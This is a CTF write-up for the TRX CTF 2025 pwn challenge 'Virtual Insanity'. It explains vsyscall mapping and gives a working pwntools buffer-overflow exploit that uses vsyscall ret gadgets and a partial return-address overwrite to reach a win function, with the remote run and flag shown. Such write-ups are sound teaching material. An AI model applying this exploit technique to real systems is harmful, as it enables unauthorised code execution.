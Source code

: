 ---
title: "[WRITE UP] - TRX CTF 2025"
description: 'Another great CTF with solid pwn challenges—managed to solve one, and this write-up covers that. I’ll be updating as I explore more, while sharpening my ASM and reversing skills.'
image: '../../img/cover_photo_wup_imresizer.png'
date: 2025-03-13
tags: ['2025', 'WriteUp', 'PWN']
authors: ['K.']
draft: false
---

# Virtual Insanity

## Description

Dancing, Walking, Rearranging Furniture

DISCLAIMER: This challenge doesn't require brute-forcing

## Analysis

First, we will need to use `checksec` to know what `security method` is applied to this binary

```sh
[*] '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

So we can see that the binary has `PIE` and no `Canary`, dive into the source code we know that there is a `win` function which we can let the program return to after finishing the `main` function

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

But the problem here is this binary has `PIE`, and there is no way for us to `ret2win` in a manual way, how about `Stack Pivot`? Still no because the `puts` function is above `read` function and there is `FULL RELRO` so this is impossible to leak the address too. We can think of `Partial Overwrite`, but this way is still impossible because the `main` function calls first, and when it returns, it will return to the function that called it (as known as `__libc_start_call_main()`) to exit.

![alt text](../../img/TRX/image-1.png)

It feels pretty hopeless because there's no way to exploit it huh? But once we look carefully we know that there is `vsyscall` mapping page. The `vsyscall` partition is only visible when we enable `emulate` mode for the kernel.

For `wsl2` we can reconfigure the `.wslconfig` file to make it visible to us

```sh
[wsl2]

processors=2

kernelCommandLine = vsyscall=emulate

[experimental]
sparseVhd=true
```

And for `Ubuntu` we can use
```sh
cat /proc/self/maps | grep vsyscall
echo 'GRUB_CMDLINE_LINUX_DEFAULT="vsyscall=emulate"' >> /etc/default/grub
update-grub
reboot
```

And when we finish and check `vmmap` again we can see it

![alt text](../../img/TRX/image.png)

By reading this [article](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-3.html), we can understand the purpose and functionality of `vsyscall` and `vDSO`. In short, `vsyscall` (`virtual system call`) is a mechanism in the Linux kernel designed to speed up certain system calls. The kernel maps a special memory page into user space, which contains predefined variables and implementations of specific system calls. One notable characteristic of `vsyscall` is that its address is `static`, meaning it is not affected by `PIE`. And as we can see in `__vsyscall_page` symbol which is defined in [vsyscall_emu_64.S](https://codebrowser.dev/linux/linux/arch/x86/entry/vsyscall/vsyscall_emu_64.S.html)

```S
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_time, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_getcpu, %rax
    syscall
    ret
```

We can see that certain system calls (`gettimeofday`, `time`, `getcpu`) are implemented within the `vsyscall` page, each containing a `ret` instruction. The starting address of the `vsyscall` page is always `0xffffffffff600000`, as it remains static. Because of this, `glibc` knows the exact addresses of all virtual system call handlers. These addresses are defined in the `glibc` source code as follows:

```c
#define VSYSCALL_ADDR_vgettimeofday   0xffffffffff600000
#define VSYSCALL_ADDR_vtime           0xffffffffff600400
#define VSYSCALL_ADDR_vgetcpu         0xffffffffff600800
```

All virtual system call requests are handled within the `__vsyscall_page`, using an offset based on `VSYSCALL_ADDR_vsyscall_name`. The system call number is placed into the `rax` register, and then the native `syscall` instruction for `x86_64` is executed.

## Exploit Development

So with that information about `vsyscall` we can easily take advantage of the `ret` instruction, to let the program return to `rsp+0x10` (in case we stopped at main `ret`)

```sh
00:0000│ rsp 0x7fffffffdc38 —▸ 0x7ffff7dabd90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7fffffffdc40 ◂— 0
02:0010│     0x7fffffffdc48 —▸ 0x5555555551da (main) ◂— endbr64
03:0018│     0x7fffffffdc50 ◂— 0x1ffffdd30
04:0020│     0x7fffffffdc58 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
05:0028│     0x7fffffffdc60 ◂— 0
06:0030│     0x7fffffffdc68 ◂— 0xacb58eb5d2e91dc3
07:0038│     0x7fffffffdc70 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
```


So our exploit will look like this:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*main+109
        c
        '''.format(**locals()), *a, **kw, env={"FLAG": r"TRX{example_flag}"})
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw, env={"FLAG": r"TRX{example_flag}"})

p = start()

# ==================== EXPLOIT ====================

'''
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000               mov    rax, 0x60     RAX => 0x60
0xffffffffff600007               syscall
0xffffffffff600009               ret
'''

def exploit():


  offset = 40
  vsyscall = 0xffffffffff600000

  payload = b'A' * offset
  payload += p64(vsyscall) * 2
  payload += p8(0xa9)

  s(payload)

  interactive()

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/TRX_CTF/dist
$ ./xpl.py REMOTE virtual.ctf.theromanxpl0.it 7011
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to virtual.ctf.theromanxpl0.it on port 7011: Done
[*] Switching to interactive mode
You pathetic pwners are worthless without your precious leaks!!!
IMPOSSIBLE! GRAHHHHHHHHHH
TRX{1_h0p3_y0u_d1dn7_bru73f0rc3_dc85efe0}
[*] Got EOF while reading in interactive
```
